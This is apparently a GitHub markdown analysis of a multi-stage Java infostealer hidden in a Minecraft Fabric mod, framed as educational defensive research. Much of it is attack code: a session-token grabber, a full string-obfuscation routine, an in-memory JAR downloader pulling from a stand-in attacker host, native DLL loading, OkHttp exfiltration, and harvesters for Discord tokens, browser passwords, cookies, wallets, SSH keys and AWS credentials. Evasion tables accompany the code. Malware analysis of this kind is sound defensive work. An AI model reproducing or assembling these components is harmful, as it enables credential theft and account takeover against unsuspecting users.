

# Multi-Stage Java Malware: Complete Technical Analysis

**Disclaimer**: This project is a concept for educational and defensive security research purposes only. Understanding malware architecture is essential for developing effective detection and mitigation strategies.

---

## Executive Summary

This analysis documents a Java-based malware delivery system that combines:
- **Blockchain-based C2 obfuscation** to hide infrastructure (WIP)
- **Multi-stage payload delivery** to evade static analysis
- **JNI-backed native execution** to bypass Java sandbox restrictions
- **Custom obfuscation techniques** across all stages
- **In-memory execution** to avoid disk-based detection

The malware has careful consideration for antivirus evasion, anti-analysis techniques, and OPSEC.

---

## Architecture



---

## Stage 0: Blockchain-Based Endpoint Obfuscation

### Design Philosophy

Instead of hardcoding C2 server URLs, the malware gets config data through blockchain infrastructure

### Implementation Details

1. **JSON-RPC Call to Blockchain Node**
   - Uses standard Ethereum/blockchain RPC endpoints
   - Appears as normal cryptocurrency-related traffic
   - Difficult to block without disrupting legitimate services

2. **Multi-Layer Encoding**
   ```
   1. RPC ResponseABI-encoded hex
   2. Decoded blob
   3. Split by delimiter
   4. Base domain + Encrypted component
   5. Base64 decode in memory
   6. Final C2 URL (never static)
    ```

3. **Per-Victim Customization**
   - User UUID incorporated into decoding process
   - Unique payloads served per victim
   - Frustrates sample sharing and analysis

### Security Implications

- **No static IOCs**: C2 URL never appears in binary
- **Takedown resistance**: Blockchain data cannot be easily removed
- **Traffic blending**: Malicious requests indistinguishable from legitimate crypto activity
- **Dynamic infrastructure**: C2 endpoints can rotate without redeployment

---

## Stage 1: Initial Infection Vector

### Entry Point: `LoaderClient.onInitialize()`

This is the Fabric mod initialization hook that executes when Minecraft starts.

```java
public void onInitialize() {
    JsonObject context = new JsonObject();
    
    // Deobfuscate "platform" key
    context.addProperty(
        decS(new int[]{81, 187, 24, 240, ...}, ...), // = "platform"
        decS(new int[]{203, 117, 232}, ...)          // = "mod"
    );
    
    // Get Minecraft client instance
    MinecraftClient mc = MinecraftClient.getInstance();
    ClientPlayNetworkHandler session = mc.getNetworkHandler();
    
    JsonObject mcInfo = new JsonObject();
    
    // Get account info
    mcInfo.addProperty("name", session.getProfile().getName());
    mcInfo.addProperty("id", session.getProfile().getId().toString());
    mcInfo.addProperty("token", session.getAccessToken()); 
    
    context.add("mcInfo", mcInfo);
    
    // Asynchronous staging to avoid blocking game startup
    new Thread(() -> {
        StagingHelper.stageWithContext(context);
    }).start();
}
```

### Data Stolen

| Field | Description | Impact |
|-------|-------------|--------|
| `name` | Minecraft username | Identity tracking |
| `id` | Player UUID | Unique identifier |
| `token` | Session token | **Account hijacking capability** |

---

## Stage 2: String Obfuscation System

### The `decS()` Algorithm

A custom encryption system designed to hide strings from static analysis tools. 

```java
public static String decS(int[] d1, int[] d2, int k1, int k2) {
    // Step 1: Interleave two integer arrays
    int[] pixels = new int[d1.length + d2.length];
    for (int i = 0; i < d1.length; i++) {
        pixels[i * 2] = d1[i];
    }
    for (int i = 0; i < d2.length; i++) {
        pixels[i * 2 + 1] = d2[i];
    }
    
    // Step 2: Create substitution cipher lookup table
    int[] config = new int[256];
    for (int i = 0; i < 256; i++) {
        config[i] = (i * 47 + 131) % 256;
    }
    
    // Step 3: Create reverse lookup
    int[] texture = new int[256];
    for (int i = 0; i < 256; i++) {
        texture[config[i]] = i;
    }
    
    StringBuilder result = new StringBuilder();
    int velocity = k1;
    
    // Step 4: Decrypt each character
    for (int idx = 0; idx < pixels.length; idx++) {
        velocity = (velocity * 31 + idx * 17) % 256;
        int offset = (k1 + velocity + idx * 7) % 256;
        
        int brightness = pixels[idx];
        
        // XOR chaining with previous character
        if (idx > 0) {
            brightness ^= pixels[idx - 1];
        } else {
            brightness ^= k1;
        }
        
        // Bit rotation
        int angle = (idx * 3 + k2) % 8;
        int color = ((brightness >> angle) | (brightness << (8 - angle))) & 0xFF;
        
        // Substitution cipher application
        int gamma = texture[color];
        
        // Final XOR with offset and key
        char temperature = (char)(gamma ^ offset ^ k2);
        result.append(temperature);
    }
    
    return result.toString();
}
```

### Obfuscation Techniques Used

1. **Array Interleaving**: Splits data across two arrays
2. **Substitution Cipher**: Mathematical transformation of character values
3. **XOR Chaining**: Each character depends on previous character
4. **Bit Rotation**: Position-dependent bit shifts
5. **Multi-Key System**: Two keys (k1, k2) required for decryption

### Hidden Strings Examples

```java
// C2 Server URL
decS(
    new int[]{249, 64, 202, 99, 27, 254, ...},
    new int[]{119, 16, 51, 47, 206, 178, ...},
    187, 67
) // → "https://attacker-server.example/stage2.jar"

// Class name for reflective loading
decS(
    new int[]{223, 234, 87, 123, 3, 101, ...},
    new int[]{25, 222, 130, 17, 203, 139, ...},
    187, 67
) // → "MalwareLoader" or similar

// Method name for execution
decS(
    new int[]{115, 130, 241, 10, 136, 85, ...},
    new int[]{127, 22, 36, 248, 93, 25, ...},
    187, 67
) // → "executePayload" or similar
```

### Purpose

- Evade antivirus signature detection
- Prevent string-based IOC extraction
- Complicate reverse engineering
- Hide infrastructure details

---

## Stage 3: Payload Download + Loading

### Download Function: `dl()`

```java
private static byte[] dl(String url) {
    try (HttpClient client = HttpClient.newHttpClient()) {
        HttpRequest request = HttpRequest.newBuilder()
            .uri(URI.create(url))
            .GET()
            .build();
        
        try {
            HttpResponse<byte[]> response = client.send(
                request, 
                HttpResponse.BodyHandlers.ofByteArray()
            );
            
            int code = response.statusCode();
            if (code == 200) {
                return response.body();
            } else {
                System.out.println("Resource state: D");
                return null;
            }
        } catch (Exception e) {
            System.out.println("Resource state: D0");
            return null;
        }
    }
}
```

### Staging Function: `stageWithContext()`

This is the core loader that orchestrates the entire attack chain.

```java
public static void stageWithContext(JsonObject context) {
    String userId;
    
    // Step 1: Read embedded tracking UUID
    try (InputStreamReader reader = new InputStreamReader(
            StagingHelper.class.getClassLoader()
                .getResourceAsStream("cfg.json"))) {
        JsonObject json = new Gson().fromJson(reader, JsonObject.class);
        userId = json.get("uuid").getAsString();
    } catch (Exception e) {
        System.out.println("Resource state: S0");
        return;
    }
    
    // Step 2: Deobfuscate C2 server URL
    String url = decS(dU1, dU2, kU1, kU2);
    
    // Step 3: Add tracking information
    context.addProperty("userId", userId);
    
    // Step 4: Download Stage 2 payload
    byte[] jarBytes = dl(url);
    if (jarBytes == null) {
        System.out.println("Resource state: S1");
        return;
    }
    
    // Step 5: Parse JAR structure in memory
    HashMap<String, byte[]> classMap = new HashMap<>();
    HashMap<String, byte[]> resourceMap = new HashMap<>();
    
    try (JarInputStream jarStream = new JarInputStream(
            new ByteArrayInputStream(jarBytes))) {
        JarEntry entry;
        while ((entry = jarStream.getNextJarEntry()) != null) {
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            jarStream.transferTo(baos);
            byte[] data = baos.toByteArray();
            
            if (entry.getName().endsWith(".class")) {
                String className = entry.getName()
                    .replace('/', '.')
                    .replace(".class", "");
                classMap.put(className, data);
            } else {
                resourceMap.put(entry.getName(), data);
            }
        }
    } catch (Exception e) {
        System.out.println("Resource state: S2");
        return;
    }
    
    // Step 6: Create custom ClassLoader
    IMCL loader = new IMCL(classMap, resourceMap);
    
    // Step 7: Load malicious class (obfuscated name)
    Class<?> maliciousClass;
    try {
        maliciousClass = loader.loadClass(decS(...));
    } catch (ClassNotFoundException e) {
        System.out.println("Resource state: S4");
        return;
    }
    
    // Step 8: Instantiate payload
    Object malwareInstance;
    try {
        malwareInstance = maliciousClass
            .getDeclaredConstructor()
            .newInstance();
    } catch (Exception e) {
        System.out.println("Resource state: S5");
        return;
    }
    
    // Step 9: Execute with stolen credentials
    new Thread(() -> {
        try {
            maliciousClass.getMethod(decS(...), String.class)
                .invoke(malwareInstance, new Gson().toJson(context));
        } catch (Exception e) {
            System.out.println("Resource state: S6");
        }
    }).start();
}
```

### Context Data Passed to Stage 2

```json
{
  "platform": "mod",
  "userId": "unique-tracking-id-from-cfg.json",
  "mcInfo": {
    "name": "VictimUsername",
    "id": "550e8400-e29b-41d4-a716-446655440000",
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
  }
}
```

### Key Technical Details

- **In-Memory Execution**: JAR never written to disk
- **Custom ClassLoader**: Bypasses standard classpath scanning
- **Reflection-Based Invocation**: No compile-time dependencies
- **Obfuscated Error Messages**: Minimal debugging information
- **Asynchronous Execution**: Non-blocking background operation
- **No Traditional Entrypoint**: No `main()` method to detect

---

## Stage 4: Native Payload Loading System

### JNICLoader Architecture

The `JNICLoader` class implements a sophisticated native code loading system designed to evade detection.

### Embedded Native Payload

Location: `lib/aef01f72-edd4-4756-b2ee-ef47ff66de66.dat`

This resource contains **multiple architecture-specific native binaries** packed into a single file:
- Windows x86_64/amd64
- Windows ARM64 (arch64)

### Platform Detection & Gating

```java
static {
    String os = System.getProperty("os.name").toLowerCase();
    String arch = System.getProperty("os.arch").toLowerCase();
    
    // Only proceed if target platform matches
    if (!isTargetPlatform(os, arch)) {
        throw new UnsatisfiedLinkError("Platform not supported");
    }
}
```

This prevents execution in:
- Analysis sandboxes (Linux VMs)
- Incompatible architectures
- Automated analysis systems

### Offset-Based Binary Selection

Rather than separate files, the loader uses **hard-coded byte ranges**:

```java
// The general idea
if (isWindows64()) {
    startOffset = 0x1000;
    endOffset = 0x5000;
} else if (isWindowsARM()) {
    startOffset = 0x5000;
    endOffset = 0x9000;
}

byte[] nativePayload = extractRange(datResource, startOffset, endOffset);
```

### Custom Decompression Engine

The loader implements a **proprietary decompression algorithm** avoiding standard libraries:

```java
class JNICLoader extends InputStream {
    // Custom decompression state
    private W windowBuffer;
    private J dictionaryState;
    private h bitDecoder;
    
    @Override
    public int read() {
        // Proprietary decompression logic
        // Avoids Inflater/GZIP signatures
    }
}
```

Supporting classes:
- `W`: Sliding window buffer
- `J`: Dictionary/state management
- `h`: Bit-level decoding

### Runtime Extraction Process

```java
// Step 1: Create temporary file with random name
File tempDll = File.createTempFile("native_", ".dll");
tempDll.deleteOnExit();

// Step 2: Decompress and write selected binary
try (FileOutputStream out = new FileOutputStream(tempDll);
     JNICLoader decompressor = new JNICLoader(datResource, offset, length)) {
    decompressor.transferTo(out);
}

// Step 3: Load into JVM process
System.load(tempDll.getAbsolutePath());
```

### Java ↔ Native Communication

```java
// Allocate direct buffer for native communication
ByteBuffer commBuffer = ByteBuffer.allocateDirect(64)
    .order(ByteOrder.LITTLE_ENDIAN);

// Populate with constants/commands
commBuffer.putInt(0, MAGIC_CONSTANT);
commBuffer.putInt(4, OPERATION_CODE);

// Native code can now access this buffer directly
```

### Native Method Declarations

After successful loading, native methods become callable:

```java
public static native void runClient(String config);
public static native String extractDiscordTokens();
public static native byte[] decryptDPAPI(byte[] encrypted);
public static native String[] enumerateBrowserProfiles();
```

### Static Initialization Pattern

```java
static {
    JNICLoader.init();
    ClassName.$jnicLoader();
}
```

This forces native code execution **as soon as the class is referenced**, hiding logic from decompilers.

---

## Stage 5: Kotlin Orchestration Layer

### Architecture

The presence of Kotlin standard library indicates high-level control flow is written in Kotlin, not Java.

### Advantages for Attackers

1. **Coroutine-Based Concurrency**
   ```kotlin
   launch {
       val tokens = async { extractDiscordTokens() }
       val browsers = async { extractBrowserData() }
       val files = async { collectFiles() }
       
       exfiltrate(tokens.await(), browsers.await(), files.await())
   }
   ```

2. **Compiler-Generated Bytecode**
   - State machines for coroutines
   - Anonymous classes for lambdas
   - Complex continuation passing

3. **Poor Java Decompilation**
   - Kotlin-specific constructs don't decompile cleanly
   - Control flow is obfuscated
   - Variable names are synthetic

4. **Type Safety Without Visibility**
   ```kotlin
   sealed class CollectionResult {
       data class Success(val data: ByteArray) : CollectionResult()
       data class Failure(val error: String) : CollectionResult()
   }
   ```

### Execution Coordination

```kotlin
suspend fun executeStage2(context: JsonObject) = coroutineScope {
    initializeWeedhack(context.toString())
    val discordJob = async { collectDiscordCredentials() }
    val browserJob = async { collectBrowserData() }
    val fileJob = async { collectTargetFiles() }
    val results = awaitAll(discordJob, browserJob, fileJob)
    stageData(results)
    exfiltrateData()
}
```

---

## Stage 6: Data Collection Handlers

### Discord Credential Harvester

The native payload implements sophisticated Discord token extraction:

```c
// Pseudocode representation of native implementation
typedef struct {
    char* token;
    char* userId;
    char* email;
    bool mfa_enabled;
} DiscordCredential;

DiscordCredential* extractDiscordTokens() {
    // Step 1: Enumerate Discord installations
    char* discordPaths[] = {
        "%APPDATA%/Discord",
        "%APPDATA%/DiscordPTB",
        "%APPDATA%/DiscordCanary",
        "%LOCALAPPDATA%/Google/Chrome/User Data/Default/Local Storage"
    };
    
    // Step 2: Parse leveldb databases
    for (path in discordPaths) {
        LevelDB* db = openLevelDB(path);
        
        // Step 3: Extract encrypted tokens
        for (entry in db) {
            if (isTokenEntry(entry)) {
                byte* encrypted = entry.value;
                
                // Step 4: Decrypt using DPAPI
                byte* decrypted = CryptUnprotectData(encrypted);
                
                // Step 5: Validate and structure
                if (validateToken(decrypted)) {
                    credentials.add(parseToken(decrypted));
                }
            }
        }
    }
    
    return credentials;
}
```

**Capabilities:**
- Desktop Discord token extraction
- Browser-based Discord token theft
- DPAPI decryption for protected tokens
- Token validation and metadata enrichment
- Multi-installation support (stable, PTB, canary)

### Browser Data Harvester

```c
// Native browser credential extraction
typedef struct {
    char* url;
    char* username;
    char* password;
} BrowserCredential;

BrowserCredential* extractBrowserData() {
    // Target browsers
    Browser browsers[] = {
        CHROME, EDGE, FIREFOX, OPERA, BRAVE
    };
    
    for (browser in browsers) {
        sqlite3* loginDb = openBrowserDB(browser, "Login Data");
        extractCredentials(loginDb);
        
        sqlite3* cookieDb = openBrowserDB(browser, "Cookies");
        extractCookies(cookieDb);
        
        sqlite3* webDataDb = openBrowserDB(browser, "Web Data");
        extractAutofill(webDataDb);
    }
}
```

**Targeted Data:**
- Saved passwords
- Session cookies
- Autofill data
- Payment information
- Browsing history

### File Scraper

```c
void collectTargetFiles() {
    // Cryptocurrency wallets
    collectFiles("*.wallet");
    collectFiles("%APPDATA%/Exodus");
    collectFiles("%APPDATA%/Ethereum");
    
    // SSH keys
    collectFiles("%USERPROFILE%/.ssh/*");
    
    // Configuration files
    collectFiles("*.config");
    collectFiles("*.json");
    
    // Development credentials
    collectFiles(".env");
    collectFiles(".aws/credentials");
}
```

---

## Stage 7: Data Exfiltration

### Legitimate Library Usage

The malware uses **trusted, widely-deployed libraries** for network operations:

```kotlin
// OkHttp for HTTP communications
val client = OkHttpClient.Builder()
    .connectTimeout(30, TimeUnit.SECONDS)
    .build()

val request = Request.Builder()
    .url(exfilServer)
    .post(requestBody)
    .build()

client.newCall(request).execute()
```

### Benefits of Using OkHttp/Okio

1. **Low Detection Rates**: Legitimate library, not suspicious
2. **TLS Encryption**: All traffic encrypted by default
3. **Chunked Uploads**: Large data sets transferred efficiently
4. **Connection Pooling**: Efficient network usage
5. **Automatic Retries**: Reliable exfiltration
6. **Normal Traffic Pattern**: Looks like telemetry/analytics

### Exfiltration Protocol

```kotlin
// Pseudocode representation
suspend fun exfiltrateData() {
    val payload = buildPayload {
        victim = context.mcInfo
        discord = discordCredentials
        browsers = browserData
        files = collectedFiles.map { it.toBase64() }
    }
    
    val encrypted = encrypt(payload, serverPublicKey)
    uploadChunked(encrypted) {
        onProgress { percent -> /* silent */ }
        onComplete { /* cleanup */ }
        onFailure { /* retry */ }
    }
}
```

---

## Comprehensive Evasion Techniques

### Static Analysis Evasion

| Technique | Implementation | Purpose |
|-----------|---------------|---------|
| String Obfuscation | Custom `decS()` algorithm | Hide IOCs from scanners |
| Blockchain C2 | RPC-based endpoint retrieval | No hardcoded URLs |
| Custom Compression | Proprietary decompression | Avoid known signatures |
| Offset Slicing | Hard-coded byte ranges | Hide payload structure |
| No Entrypoint | Reflective invocation | Defeat entry point analysis |

### Dynamic Analysis Evasion

| Technique | Implementation | Purpose |
|-----------|---------------|---------|
| In-Memory Execution | Never touch disk | Avoid file-based detection |
| Platform Gating | OS/arch validation | Prevent sandbox execution |
| JNI Delegation | Native code logic | Bypass JVM monitoring |
| Kotlin Obfuscation | Compiler-generated bytecode | Complicate decompilation |
| Asynchronous Execution | Threading/coroutines | Avoid blocking detection |

### Network Analysis Evasion

| Technique | Implementation | Purpose |
|-----------|---------------|---------|
| TLS Encryption | OkHttp default behavior | Prevent traffic inspection |
| Legitimate Libraries | OkHttp/Okio | Blend with normal traffic |
| Blockchain Traffic | JSON-RPC calls | Mimic crypto activity |
| Chunked Transfer | Binary uploads | Normal HTTP behavior |

### Behavioral Analysis Evasion

| Technique | Implementation | Purpose |
|-----------|---------------|---------|
| Delayed Execution | Async staging | Avoid immediate detection |
| Minimal Errors | Silent failure modes | Reduce analyst visibility |
| Legitimate APIs | Windows DPAPI, etc. | Expected system calls |
| Memory-Only Buffers | DirectByteBuffer | No heap visibility |

---

## Attack Example

### Account Takeover

```java
public class AccountHijacker {
    public void execute(String jsonContext) {
        JsonObject context = new Gson().fromJson(jsonContext, JsonObject.class);
        String sessionToken = context.getAsJsonObject("mcInfo")
            .get("token").getAsString();
        
        MinecraftSession.hijack(sessionToken);
        
        // - Transfer items/currency
        // - Access account email
        // - Change password
        // - Sell account credentials
    }
}
```

### Post obf Code Patterns 

```java
// String obfuscation pattern
decS(new int[]{...}, new int[]{...}, int, int)

// Native loader pattern
static {
    JNICLoader.init();
    ClassName.$jnicLoader();
}

// Reflection invocation pattern
Class.forName(decS(...)).getMethod(decS(...)).invoke(...)

// Custom ClassLoader pattern
new IMCL(classMap, resourceMap).loadClass(...)
```

---

### Advanced Features

-  Multi-stage architecture
-  Blockchain-based C2 obfuscation
-  Custom string encryption
-  In-memory execution
-  Native code delegation
-  Platform-specific payloads
-  Custom compression
-  Kotlin obfuscation
-  Legitimate library abuse
-  Minimal error disclosure

### Professional Indicators

1. **Operational Security**
   - No hardcoded infrastructure
   - Unique victim tracking
   - Silent failure modes
   - Anti-analysis techniques

2. **Code Quality**
   - Clean architecture
   - Modular design
   - Error handling
   - Resource management

3. **Evasion Sophistication**
   - Multiple obfuscation layers
   - Legitimate traffic blending
   - Memory-only execution
   - Dynamic payload delivery

4. **Credential Theft Capability**
   - this can do ANYTHING depending on the payload

---

**Document Version**: 1.0  
**Author**: SnipSnapz
**Last Updated**: January 2026  
**Classification**: Public - Educational/Research